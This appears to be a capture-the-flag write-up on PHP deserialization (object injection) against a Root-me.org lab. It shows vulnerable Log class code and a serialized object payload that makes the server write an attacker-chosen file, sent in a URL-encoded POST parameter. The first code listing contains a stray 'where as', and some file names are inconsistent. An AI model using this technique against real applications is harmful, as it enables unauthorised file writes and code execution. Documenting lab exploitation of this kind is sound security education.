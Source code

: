 # Php DeSerialization / Object Injection

Hello readers, Hope your doing good :) , 

So let's have a look at this vulnerability in php which leads to "Remote Code Execution" 

i will be demonstrating this vulnerability on a online lab /dev/random - pipe from Root-me.org

So what is Php DeSerialization?

PHP Object Injection (Php DeSerialization) is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

Lets just get onto the challenge.

After running gobuster for few minutes i found a directory named /scriptz/ 
which has 2 files php.js and log.php.bak

1. png here
 
2.png

that's what php.js does 

now we look at log.php,bak 


## Actual Code lol.php.bak

```
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";where as
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}

?>
```

We can see in the above class Log() we have a public variable called $filename and $data whereas filename="whatever you like" and data = "whatever you want to put in your file" 

So now we have a to create a object for class Log() and serialize the output 

## Modified Code

```
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
$obj = new Log();
$obj -> filename = 'hacker';
$obj -> data = 'hacked';
echo serialize($obj);
?>

```
###  object:
```
$obj = new Log();
$obj -> filename = 'hacker';
$obj -> data = 'hacked';
echo serialize($obj); 
```
we have created a object with new Log();  and we have set the file name to "hacker" and data as hacked and then we use `echo serialize($obj); `  to get the serialized output.

output:
`O:3:"Log":2:{s:8:"filename";s:6:"hacker";s:4:"data";s:6:"hacked";}`

in the above serialized output we see that `O` is a letter (capital O) and :3: is the string size of "Log" `{s:8:"filename"` so here s stands for string and we see its 8 as filename has 8 letters , and rest others also have the same logic `s:6:"hacker";s:4:"data";s:6:"hacked";}`.

 Now we Look at the view-source, we see a post request with parameter name=param 

we send our payload in a post request in param= "payload" where as we have to encode the payload in url encoding once and and then click on Go.

we then goto /scriptz / directory and we can see our file there :)

 
